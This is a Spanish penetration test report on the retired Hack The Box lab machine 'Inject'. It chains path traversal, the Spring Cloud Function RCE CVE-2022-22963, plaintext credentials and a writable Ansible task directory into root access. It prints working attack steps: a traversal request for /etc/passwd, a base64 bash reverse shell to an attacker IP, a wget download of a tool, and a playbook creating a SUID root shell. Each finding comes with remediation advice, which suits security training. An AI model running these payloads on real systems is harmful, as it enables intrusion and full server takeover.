

# Informe de Prueba de Penetración — Inject

| | |
|---|---|
| **ID de informe** | HO-0009-00 |
| **Objetivo** | Inject (`10.129.86.154`) |
| **Plataforma** | Hack The Box — máquina retirada |
| **Tipo de prueba** | Caja negra (black box) |
| **Fecha de ejecución** | 2026-10-20 |
| **Autor** | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión** | 1.0 |
| **Clasificación** | Público — uso educativo |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio autorizado
> (Hack The Box) y sobre una máquina retirada. Ninguna técnica descrita debe aplicarse
> sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha | Descripción |
|---------|-------|-------------|
| 1.0 | 2026-10-20 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Inject** simulando un atacante externo sin credenciales
ni conocimiento previo del entorno, para obtener el máximo nivel de privilegios posible.

### 1.2 Resultado

> Se obtuvo control total del servidor, incluida la cuenta de administrador, a partir de
> una aplicación web sin autenticación. Un formulario de carga de imágenes permitió leer
> archivos internos del servidor, lo que reveló que un componente de backend tenía una
> vulnerabilidad crítica conocida; esa falla permitió ejecutar comandos en el servidor.
> Desde ahí se recuperó una contraseña guardada sin cifrar, lo que dio acceso a una
> segunda cuenta, y una tarea automática mal configurada que corría con privilegios de
> administrador permitió tomar el control completo del sistema.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
|:-------:|:----:|:-----:|:----:|:-----------:|
| 1 | 1 | 2 | 0 | 0 |

### 1.4 Resumen de hallazgos

| ID | Hallazgo | Severidad | CVSS |
|----|----------|-----------|------|
| [HO-0009-02](#ho-0009-02--ejecución-remota-de-comandos-en-spring-cloud-function-cve-2022-22963) | Ejecución remota de comandos en Spring Cloud Function (CVE-2022-22963) | Crítica | 9.8 |
| [HO-0009-04](#ho-0009-04--escalada-de-privilegios-vía-automatización-de-ansible-mal-permisionada) | Escalada de privilegios vía automatización de Ansible mal permisionada | Alta | 8.1 |
| [HO-0009-01](#ho-0009-01--inclusión-local-de-archivos-lfi-en-el-visor-de-imágenes) | Inclusión local de archivos (LFI) en el visor de imágenes | Media | 7.5 |
| [HO-0009-03](#ho-0009-03--credenciales-en-texto-plano-en-archivo-de-configuración-local) | Credenciales en texto plano en archivo de configuración local | Media | 5.5 |

> HO-0009-01 se puntúa con impacto solo de confidencialidad, pero fue la llave que
> permitió identificar HO-0009-02, por lo que su impacto real en la cadena de ataque es
> mayor al que refleja el CVSS aislado.

### 1.5 Recomendaciones prioritarias

1. Actualizar `spring-cloud-function-web` a una versión parcheada de CVE-2022-22963.
2. Restringir permisos de `/opt/automation/tasks/` y mover la generación de playbooks a un flujo revisado.
3. Validar el parámetro `img` contra una lista de archivos permitidos y eliminar credenciales en texto plano de archivos de configuración.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo | Dirección | Incluido |
|--------|-----------|:--------:|
| Inject | `10.129.86.154` | Sí |

**Fuera de alcance:** ataques de denegación de servicio, infraestructura de la
plataforma y otros jugadores. No se modificaron ni destruyeron datos del sistema más
allá de lo estrictamente necesario para demostrar impacto (lectura de archivos,
ejecución de comandos puntuales, creación de un binario SUID de prueba).

### 2.2 Metodología

La prueba siguió las fases del estándar **PTES** (Penetration Testing Execution
Standard), apoyándose en **OWASP WSTG** para los componentes web:

1. **Reconocimiento** — descubrimiento de puertos y servicios.
2. **Enumeración** — identificación de versiones, tecnologías y superficie de ataque.
3. **Análisis de vulnerabilidades** — validación manual de posibles fallos.
4. **Explotación** — obtención de acceso inicial.
5. **Post-explotación** — escalada de privilegios y movimiento lateral.
6. **Reporte** — documentación de hallazgos y recomendaciones.

### 2.3 Entorno del auditor

| Componente | Detalle |
|------------|---------|
| Sistema | Linux (kernel 7.2.11-zen1-1-zen) |
| Conexión | VPN de Hack The Box |
| Herramientas | nmap 7.992, Burp Suite, searchsploit, netcat, pspy64 |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1** (ver tabla de criterios estándar).

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.86.154
nmap -p22,8080 -sVC -Pn -n -T4 -o loot/detallado.txt 10.129.86.154
```

| Puerto | Servicio | Versión | Observaciones |
|--------|----------|---------|---------------|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 | Vector de acceso tras obtener credenciales. |
| 8080/tcp | HTTP | `nmap` lo identifica como `nagios-nsca`; en realidad es una aplicación web Spring Boot. | Principal superficie de ataque. |

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

La aplicación expone una galería con una sección de carga de imágenes y un visor que
construye la respuesta a partir de un parámetro de ruta:

```
http://10.129.86.154:8080/show_image?img=<archivo>
```

Se intentó primero subir un archivo `.php` con una webshell básica
(`system($_GET['cmd'])`) como vector de ejecución directa; el formulario validó el tipo de
archivo y rechazó la carga, por lo que esta vía no resultó explotable.

Al observar que el parámetro `img` admite rutas relativas, se probó *path traversal*. El
navegador no refleja el contenido al solicitar:

```
http://10.129.86.154:8080/show_image?img=../../../../../../../../../../../etc/passwd
```

pero Burp Suite sí mostró el contenido completo del archivo en la respuesta cruda. Ver
**[HO-0009-01](#ho-0009-01--inclusión-local-de-archivos-lfi-en-el-visor-de-imágenes)**.

Con la misma técnica se localizó el directorio de despliegue (`/var/www/WebApp/pom.xml`),
que reveló el stack de la aplicación: Spring Boot 2.6.5 con `spring-cloud-function-web`
en su versión 3.2.2. Al buscar esa versión se confirmó que corresponde a
**CVE-2022-22963**:

```bash
searchsploit spring cloud function
searchsploit --cve CVE-2022-22963
```

### 3.4 Acceso inicial

Explotación de CVE-2022-22963 y obtención de shell como `frank`. Ver
**[HO-0009-02](#ho-0009-02--ejecución-remota-de-comandos-en-spring-cloud-function-cve-2022-22963)**.

Estabilización de la shell:

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm SHELL=bash
```

### 3.5 Movimiento lateral

Credenciales en texto plano en `/home/frank/.m2/settings.xml` permitieron pasar de
`frank` a `phil` por reutilización de contraseña. Ver
**[HO-0009-03](#ho-0009-03--credenciales-en-texto-plano-en-archivo-de-configuración-local)**.

```bash
find / -user phil 2>/dev/null
cat /home/frank/.m2/settings.xml
su phil
```

### 3.6 Escalada de privilegios

Ver **[HO-0009-04](#ho-0009-04--escalada-de-privilegios-vía-automatización-de-ansible-mal-permisionada)**.

---

## 4. Hallazgos técnicos

### HO-0009-01 — Inclusión local de archivos (LFI) en el visor de imágenes

| | |
|---|---|
| **Severidad** | Media |
| **CVSS v3.1** | 7.5 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | [CWE-22](https://cwe.mitre.org/data/definitions/22.html) — Improper Limitation of a Pathname to a Restricted Directory (Path Traversal) |
| **CVE** | — |
| **Componente afectado** | Endpoint `show_image` — `10.129.86.154:8080` |
| **Estado** | Explotada |

#### Descripción

El endpoint `show_image` construye la ruta del archivo a servir directamente a partir del
parámetro `img`, sin normalizar ni validar contra una lista permitida, lo que habilita
*path traversal*. El navegador no renderiza el contenido, pero la respuesta HTTP cruda sí
lo contiene íntegro.

#### Prueba de concepto

**Paso 1.** Solicitud con secuencias de traversal, capturada con Burp Suite.

```http
GET /show_image?img=../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.129.86.154:8080
```

**Paso 2.** Con la misma técnica se leyó `/var/www/WebApp/pom.xml`, revelando
`spring-cloud-function-web 3.2.2`.

La respuesta no se guardó en `loot/` durante la sesión original; la lectura se confirmó
visualmente en Burp Suite al momento de la prueba.

#### Impacto

Cualquier persona con acceso de red, sin autenticación, puede leer archivos arbitrarios
del sistema de archivos con los permisos del proceso de la aplicación. En este caso
permitió identificar la versión exacta del backend y habilitar HO-0009-02.

#### Remediación

- **Corto plazo:** validar y normalizar la ruta solicitada contra una lista de archivos permitidos (*allowlist*).
- **Largo plazo:** rechazar secuencias `../` tras la normalización de la ruta y separar los archivos servidos del sistema de archivos de la aplicación.

#### Referencias

- [CWE-22 — Path Traversal](https://cwe.mitre.org/data/definitions/22.html)

---

### HO-0009-02 — Ejecución remota de comandos en Spring Cloud Function (CVE-2022-22963)

| | |
|---|---|
| **Severidad** | Crítica |
| **CVSS v3.1** | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | [CWE-917](https://cwe.mitre.org/data/definitions/917.html) — Improper Neutralization of Special Elements used in an Expression Language Statement (SpEL Injection) |
| **CVE** | [CVE-2022-22963](https://nvd.nist.gov/vuln/detail/CVE-2022-22963) |
| **Componente afectado** | `spring-cloud-function-web` 3.2.2 |
| **Estado** | Explotada |

#### Descripción

El enrutador de funciones de Spring Cloud Function evalúa el encabezado
`spring.cloud.function.routing-expression` como una expresión SpEL sin sanitizarla,
permitiendo inyectar código que el servidor ejecuta sin autenticación previa.

#### Prueba de concepto

**Paso 1.** Confirmación de ejecución con el exploit público.

```bash
searchsploit -m java/webapps/51577.py
python3 51577.py --url http://10.129.86.154:8080/functionRouter --command "id"
```

La respuesta no refleja la salida del comando directamente (error esperado
`EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to
java.lang.String`), pero confirma que el comando se ejecutó.

**Paso 2.** Obtención de una shell interactiva enviando el comando codificado en base64.

```bash
# Listener
nc -lvnp 4444

# Payload
echo -n 'bash -i >& /dev/tcp/10.10.15.56/4444 0>&1' | base64 -w0

# Disparo del exploit
python3 51577.py --url http://10.129.86.154:8080/functionRouter \
  --command "bash -c {echo,<BASE64>}|{base64,-d}|bash"
```

Esto devolvió una shell como el usuario `frank`.

#### Impacto

Ejecución de comandos arbitrarios en el servidor sin autenticación, enviando un único
encabezado HTTP. Es la vulnerabilidad de mayor impacto de la cadena: a partir de ella se
obtiene el primer acceso al sistema operativo.

#### Remediación

- **Corto plazo:** aplicar el *workaround* oficial que deshabilita la evaluación de expresiones de enrutamiento.
- **Largo plazo:** actualizar `spring-cloud-function-web` a una versión parcheada (≥ 3.1.7 / 3.2.3, según la rama).

#### Referencias

- [CVE-2022-22963 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-22963)
- [Spring Cloud Function — GHSA-6v73-fjmm-3rqr](https://github.com/spring-cloud/spring-cloud-function/security/advisories/GHSA-6v73-fjmm-3rqr)

---

### HO-0009-03 — Credenciales en texto plano en archivo de configuración local

| | |
|---|---|
| **Severidad** | Media |
| **CVSS v3.1** | 5.5 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | [CWE-256](https://cwe.mitre.org/data/definitions/256.html) — Plaintext Storage of a Password |
| **CVE** | — |
| **Componente afectado** | `/home/frank/.m2/settings.xml` |
| **Estado** | Explotada |

#### Descripción

El archivo de configuración de Maven en el home de `frank`, legible por el propio
usuario, almacena la contraseña de `phil` en texto plano.

#### Prueba de concepto

```bash
cat /home/frank/.m2/settings.xml
su phil
```

#### Impacto

Un atacante que obtiene ejecución de comandos como un usuario de bajo privilegio puede
escalar lateralmente a otra cuenta por reutilización de contraseña, sin necesidad de
fuerza bruta ni de craqueo de hashes.

#### Remediación

- **Corto plazo:** rotar la contraseña expuesta.
- **Largo plazo:** no almacenar credenciales en archivos de configuración de herramientas de build; usar un gestor de secretos o variables de entorno inyectadas en tiempo de ejecución.

#### Referencias

- [CWE-256 — Plaintext Storage of a Password](https://cwe.mitre.org/data/definitions/256.html)

---

### HO-0009-04 — Escalada de privilegios vía automatización de Ansible mal permisionada

| | |
|---|---|
| **Severidad** | Alta |
| **CVSS v3.1** | 8.1 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| **CWE** | [CWE-732](https://cwe.mitre.org/data/definitions/732.html) — Incorrect Permission Assignment for Critical Resource |
| **CVE** | — |
| **Componente afectado** | `/opt/automation/tasks/` + tareas `cron` que invocan Ansible como root |
| **Estado** | Explotada |

#### Descripción

Una tarea `cron` ejecuta `ansible-parallel`/`ansible-playbook` como root sobre todos los
archivos `.yml` de `/opt/automation/tasks/`, directorio con permisos de escritura para
`phil`. `sudo -l`, binarios SUID y capabilities no revelaron ningún vector; la
enumeración de procesos con `pspy64` sí.

#### Prueba de concepto

**Paso 1.** Enumeración de procesos sin privilegios.

```bash
wget http://10.10.15.56:8000/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```

Salida relevante (como `UID=0`, cada minuto):

```text
/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
/bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
/usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
```

**Paso 2.** Depósito de un playbook propio en la ventana de escritura disponible.

```bash
ls -la /opt/automation/tasks/   # confirmar permisos de escritura de "phil"

cat > /opt/automation/tasks/evil.yml <<'EOF'
- hosts: localhost
  tasks:
    - name: pwn
      shell: "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"
EOF

# esperar al siguiente ciclo de cron (dentro de la ventana de ~10s antes del rm -rf)
/tmp/rootbash -p
```

#### Impacto

Cualquier usuario local con permiso de escritura sobre `/opt/automation/tasks/` puede
colocar un playbook propio que se ejecuta como root en el siguiente ciclo del cron,
obteniendo control total del sistema. Se confirmó creando un binario `bash` con bit SUID
(`/tmp/rootbash`).

#### Remediación

- **Corto plazo:** restringir permisos del directorio de tareas a `root:root 750` o equivalente.
- **Largo plazo:** mover la generación de playbooks a un flujo controlado (por ejemplo, un pipeline de CI con revisión) en lugar de un directorio escribible por cuentas de servicio o de usuario.

#### Referencias

- [CWE-732 — Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [GTFOBins](https://gtfobins.github.io/)

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel | Usuario | Método | Prueba |
|-------|---------|--------|--------|
| Usuario (servicio) | `frank` | HO-0009-02 | `user.txt` — `cd230618************************` |
| Usuario lateral | `phil` | HO-0009-03 | — |
| Administrador | `root` | HO-0009-04 | `root.txt` — `25e23d6a************************` |

### 5.2 Información sensible expuesta

| Tipo | Ubicación | Observación |
|------|-----------|-------------|
| Versión de dependencia | `pom.xml` vía LFI | Reveló `spring-cloud-function-web 3.2.2`. |
| Credenciales en texto plano | `/home/frank/.m2/settings.xml` | Contraseña de `phil`. |

> Las credenciales y flags se muestran parcialmente censuradas.

### 5.3 Limpieza

| Artefacto | Ubicación | Estado |
|-----------|-----------|--------|
| `/tmp/rootbash` | Objetivo | Binario SUID de prueba creado durante la explotación; no se confirmó su eliminación al cierre de la sesión. |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

Cuatro fallos encadenados permitieron el compromiso total: una lectura de archivos sin
restricciones que reveló la versión de un componente vulnerable, una ejecución remota de
comandos conocida y crítica, una contraseña en texto plano que habilitó movimiento
lateral, y una automatización de infraestructura con permisos excesivos que eliminó la
barrera final hacia root.

### 6.2 Aprendizajes del auditor

- Un control de validación de carga de archivos puede estar bien implementado y, aun así,
  el resto del mismo flujo (el parámetro de lectura) puede quedar sin validar.
- La exposición de un archivo de build (`pom.xml`) no es explotable por sí sola, pero
  revela versiones exactas de dependencias que sí lo son.
- La automatización de infraestructura que corre con privilegios elevados hereda la
  superficie de ataque de cualquier directorio desde el que lee.

---

## 7. Anexos

### A. Salida completa de escaneos

<details>
<summary>nmap — todos los puertos</summary>

```text
# Nmap 7.992 scan initiated Tue Oct 20 09:28:41 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.86.154
Nmap scan report for 10.129.86.154
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

# Nmap done at Tue Oct 20 09:28:55 2026 -- 1 IP address (1 host up) scanned in 13.88 seconds
```

</details>

<details>
<summary>nmap — escaneo de servicios</summary>

```text
# Nmap 7.992 scan initiated Tue Oct 20 11:22:32 2026 as: nmap -p22,8080 -sVC -Pn -n -T4 -o loot/detallado.txt 10.129.86.154
Nmap scan report for 10.129.86.154
Host is up (0.17s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 20 11:22:46 2026 -- 1 IP address (1 host up) scanned in 13.30 seconds
```

</details>

### B. Scripts y exploits

<details><summary>51577.py — Exploit-DB (CVE-2022-22963)</summary>

Disponible en [`scripts/51577.py`](scripts/51577.py).

</details>

<details><summary>pspy64 — enumeración de procesos sin privilegios</summary>

Binario disponible en [`scripts/pspy64`](scripts/pspy64).

</details>

<details><summary>playbook de escalada (evil.yml)</summary>

```yaml
- hosts: localhost
  tasks:
    - name: pwn
      shell: "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"
```

</details>

### C. Mapeo MITRE ATT&CK

| Táctica | Técnica | ID |
|---------|---------|----|
| Initial Access | Exploit Public-Facing Application | [T1190](https://attack.mitre.org/techniques/T1190/) |
| Credential Access | Unsecured Credentials | [T1552](https://attack.mitre.org/techniques/T1552/) |
| Privilege Escalation | Scheduled Task/Job | [T1053](https://attack.mitre.org/techniques/T1053/) |

### D. Referencias generales

- [Página de la máquina en HTB](https://app.hackthebox.com/machines/Inject)
- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Calculadora CVSS v3.1 — FIRST](https://www.first.org/cvss/calculator/3.1)
- [MITRE ATT&CK](https://attack.mitre.org/)
